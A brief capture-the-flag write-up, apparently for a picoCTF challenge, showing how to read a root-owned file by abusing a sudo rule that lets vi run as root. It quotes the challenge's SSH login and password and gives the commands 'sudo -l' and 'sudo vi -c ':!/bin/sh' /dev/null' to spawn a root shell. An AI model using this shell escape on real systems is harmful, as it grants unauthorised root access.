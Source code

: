 ## Can you read files in the root file? The system admin has provisioned an account for you on the main server: ssh -p 49962 picoplayer@saturn.picoctf.net Password: yX-YQgX-vS Can you login and read the root file?

For this we need to get some permissions or to find a way to reed the root direotry. The way I did it was by escalidating privilage. 

First, let's see what we can run as root. Fot that we run: 

```console

sudo -l

```

We see that we can run vi as root. There is a short command for running a shell throu vi:

```console

sudo vi -c ':!/bin/sh' /dev/null

```
With this we can go to root directory

```console

cd /root

ls -a

```
And you will find the flag in all its glory.
